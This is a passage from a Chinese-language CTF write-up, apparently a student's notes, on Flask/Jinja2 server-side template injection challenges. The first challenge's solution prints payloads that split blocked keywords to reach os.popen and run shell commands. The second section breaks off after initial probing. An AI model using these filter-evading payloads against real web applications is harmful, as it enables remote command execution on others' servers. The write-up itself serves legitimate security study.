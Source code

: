 参考文章：

[flask模板注入(ssti),一篇就够了_flask"+"ssti"+"总结-CSDN博客](https://blog.csdn.net/qq_59950255/article/details/123215817)

[调用系统命令 os.system()和os.popen() - KeithTt - 博客园](https://www.cnblogs.com/keithtt/p/7709445.html)

 

------

### flask真香

![image-20250227220220533](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250227220220533.png)

打开发现是一个3d建模界面，乱点一气按钮，发现右下角的方向键，点击后出现了报错界面

![image-20250227220233846](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250227220233846.png)

根据标题提示，猜测这里大概存在注入点。于是在url后输入{{2*2}}，发现回显为4，输入{{2*'2'}}，回显为22，故存在ssti，且为jinja2

输入`{{''.__class__}}`，发现被ban了，经过尝试这里大概是class被禁用了，同样的还有subclasses

故payload：

```
{{''['__cla'+'ss__']}}

{{''['__cla'+'ss__'].__base__['__subc'+'lasses__']()}}

{{''['__cla'+'ss__'].__base__['__subc'+'lasses__']()[195].__init__.__globals__['pop'+'en']('ls /').read()}}
```



```
一些整理：

{{''.__class__}}和{{().__class__}}：
前者的操作对象是''，即空字符串，其在class方法处理后的结果为字符串类str，<class 'str'>
后者的操作对象是()，即空元组，其在class方法处理后的结果为元组元组类tuple，<class 'tuple'>

字典键访问&点号访问：
字典键访问（obj['key']）适用于字典或类似字典的对象。
点号访问（obj.key）适用于对象的属性访问。
```



------

### Normal SSTI

打开一看发现提示：try to check /test?url=xxx

根据提示很显然这是一道ssti题目，先测试一下是否存在模板注入，输入/test?url={{2*2}}，得到回显do a real p1g，被骂了，显然有些符号被ban了

![image-20250227220744524](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250227220744524.png)
